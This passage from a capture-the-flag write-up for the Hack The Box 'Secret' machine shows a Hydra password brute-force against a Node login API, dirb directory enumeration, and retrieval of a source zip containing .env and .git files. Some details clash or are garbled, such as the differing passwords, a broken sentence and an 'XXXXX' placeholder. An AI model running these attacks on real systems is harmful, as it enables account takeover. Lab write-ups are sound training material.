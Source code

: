 ```http
Accept-Encoding:  gzip, deflate
Connection:  close
Content-Type:  application/json
Host: 10.10.11.120:3000
User-Agent: Mozilla/5.0 (Hydra)
Content-Length: 52
Cookie: 

{"email": "root@dasith.works","password": "shannon"}HTTP/1.1 400 Bad Request
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 17
ETag: W/"11-LBb+xM08Oz0tnf3F9safmaM6bN4"
Date: Thu, 24 Feb 2022 21:29:58 GMT
Connection: close

Password is wrong
```
This is the password the dasith user:
```bash
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-24 16:29:27
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.11.120:3000/api/user/login:{"email"\: "root@dasith.works","password"\: "^PASS^"}:F=Password is|must be at least:H=Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8:H=Accept-Language: en-US,en;q=0.5:H=Accept-Encoding: gzip, deflate:H=Connection: close:H=Content-Type: application/json
[3000][http-post-form] host: 10.10.11.120   login: root@dasith.works   password: mypassword
1 of 1 target successfully completed, 1 valid password found
```
But upon getting his auth-token and logging in to the /priv path, we get a message telling us that we are a normal user. So this doesn't help us.

#Further enumeration
So after chasing a dead end, i check what dirb found. It found a page called download. It doesn't really give us anything. Therefore I will further fuzz the area to see if I can find a file here.
```bash
---- Scanning URL: http://10.10.11.120:3000/ ----
+ http://10.10.11.120:3000/api (CODE:200|SIZE:93)                                           
+ http://10.10.11.120:3000/assets (CODE:301|SIZE:179)
+ http://10.10.11.120:3000/docs (CODE:200|SIZE:20720)
+ http://10.10.11.120:3000/download (CODE:301|SIZE:183)
```

 10.10.11.120:3000/files.zip
XXXXX seems to have found a .zip file. So lets download and check it out. A good idea is to make a folder that you extract everything to, if not the zip file might not have a parent folder and will just dump everything there.
After unszipping it we find the following:
```bash
┌──(kali㉿kali)-[~/Documents/HTB/secret/local-web]
└─$ ls -la        
total 116
drwxrwxr-x   8 kali kali  4096 Feb 16 15:51 .
drwxr-xr-x   3 kali kali  4096 Feb 23 17:16 ..
-rw-rw-r--   1 kali kali    72 Sep  3 01:59 .env
drwxrwxr-x   8 kali kali  4096 Feb 13 06:01 .git
-rw-rw-r--   1 kali kali   885 Sep  3 01:56 index.js
drwxrwxr-x   2 kali kali  4096 Feb 13 06:25 model
drwxrwxr-x 201 kali kali  4096 Aug 13  2021 node_modules
```